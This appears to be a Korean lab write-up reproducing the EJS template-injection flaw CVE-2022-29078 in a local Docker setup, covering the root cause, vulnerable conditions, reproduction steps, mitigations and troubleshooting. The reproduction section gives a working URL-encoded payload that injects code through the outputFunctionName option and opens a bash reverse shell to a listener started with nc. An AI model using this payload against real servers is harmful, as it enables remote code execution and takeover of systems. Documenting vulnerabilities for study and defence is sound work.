





# CVE-2022-29078

## 1. 취약점 요약
- **CVE 번호**: CVE-2022-29078
- **영향 버전**: EJS < 3.1.7
- **취약점 유형**: RCE (Remote Code Execution)
- **CVSS 점수**: 9.8 (Critical)

- EJS는 템플릿을 렌더링할 때 내부적으로 JavaScript 함수를 생성한 뒤 이를 실행한다. 이 과정에서 `outputFunctionName` 값은 아래 코드처럼 함수 본문에 그대로 삽입된다.

    ```js
    src = `var ${opts.outputFunctionName} = __append;` + src;
    ```

- 문제는 `outputFunctionName` 값에 대한 적절한 검증이나 이스케이프가 없다는 점이다. 따라서 공격자가 `outputFunctionName=x;악성코드;//` 와 같은 값을 넣으면, 최종적으로 생성되는 함수 코드 안에 악성 구문이 그대로 포함된다.
- 즉 원래는 `var x = __append;` 와 같이 정상적인 변수 선언이 되어야 하지만, 세미콜론(`;`) 이후의 구문이 그대로 실행되면서 임의의 JavaScript 코드 실행으로 이어진다.
- 공식 CVE 설명에서는 Express 환경에서 `res.render('index', req.query)` 와 같이 사용자 입력이 렌더링 과정에 전달될 때, `settings['view options']['outputFunctionName']` 값을 조작하여 이러한 코드 인젝션이 발생할 수 있다고 설명한다.

### 참고자료
- https://nvd.nist.gov/vuln/detail/CVE-2022-29078

## 2. 환경 구성
```
docker-compose up --build
```
- 위 명령어를 실행하면 취약한 웹 환경이 구성된다.
- 실행이 완료되면 웹 브라우저에서 `http://localhost:3001`로 접속할 수 있다.

## 3. 취약 조건
- `ejs 3.1.6` 이하 버젼을 사용하면서
- Express 환경에서 사용자 입력이 `res.render('index', req.query)` 형태로 렌더링에 전달될 때
- 사용자가 `settings['view options']['outputFunctionName']` 값을 제어할 수 있을 때

## 4. 재현 절차
1. `docker-compose up --build` 명령어로 도커 컨테이너 빌드
    
2. 다른 터미널에서 `nc -lvnp 4444`명령어로 리스닝
    
3. 웹 브라우져에서 다음의 payload 입력
    - 인코딩 된 payload 
        ```
        http://localhost:3001/?username=hello&settings[view%20options][outputFunctionName]=x;global.process.mainModule.require(%27child_process%27).exec(%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/host.docker.internal/4444%200%3E%261%22%27);//
        ```
        - 브라우저 주소창에서 특수문자 처리 문제로 payload가 정상 동작하지 않을 수 있으므로, 최종적으로 URL 인코딩된 payload를 사용하였다.
    
4. `nc -lvnp 4444`을 입력한 터미널로 돌아와보면 리버스 쉘을 취득한 것을 확인할 수 있음
    

## 5. 결과
- 위 결과에서 `whoami` 명령어 실행 결과가 `root`로 출력되는 것을 통해, 컨테이너 내부에서 명령 실행이 가능함을 확인할 수 있다.
- 추가 검증으로, 별도의 클린 VM 환경에 프로젝트 폴더만 복사한 뒤 Docker 환경을 새로 구성하고 동일한 절차를 다시 수행하였다. 그 결과 동일한 payload로 리버스 쉘 획득이 재현됨을 확인하였다.


## 6. 대응 방안
1. `ejs 3.1.7`이상의 버젼을 사용한다
    ```json
    "ejs": "3.1.7"
    ```
2. `req.query` 전체를 한 번에 전달하지 않고, 필요한 파라미터만 개별적으로 전달한다.
    - 취약한 방식
        ```js
        app.get('/', (req, res) => {
            req.query.username = req.query.username || 'guest';
            res.render('index', req.query);
        });
        ```
        - 이 경우 `outputFunctionName` 같은 옵션을 공격자가 제어할 수 있어 RCE로 이어질 수 있다.
    - 안전한 방식
        ```js
        app.get('/', (req, res) => {
            res.render('index', {
                username: req.query.username || 'guest'
            })
        })
        ```
        - 템플릿에 필요한 값만 명시적으로 전달한다.
        - `outputFunctionName` 같은 EJS 내부 옵션은 사용자 입력으로부터 분리되므로 취약점이 재현되지 않는다.

## 7. 트러블슈팅
- 페이로드의 인코딩 방식 문제
    - 페이로드에서 `&`이 웹 브라우져에 들어갔을 때 인코딩되지 않아 exploit이 되지 않는 오류가 있었다.
    - 모든 코드를 미리 인코딩하여 이 문제를 해결하였다.
- 일반 outputFunctionName을 일반 파라미터로써 접근
    - 처음에는 `outputFunctionName`을 일반 쿼리 파라미터로 직접 전달하여 취약점을 재현하려고 시도하였다.
    - 그러나 공식 CVE 설명을 다시 확인한 결과, Express 환경에서는 `settings['view options']['outputFunctionName']` 경로를 통해 EJS 옵션이 오염되는 구조임을 확인하였다.
    - 따라서 payload도 `outputFunctionName=...` 형태가 아니라 `settings[view options][outputFunctionName]=...` 형태로 구성해야 정상적으로 취약점이 재현되었다.

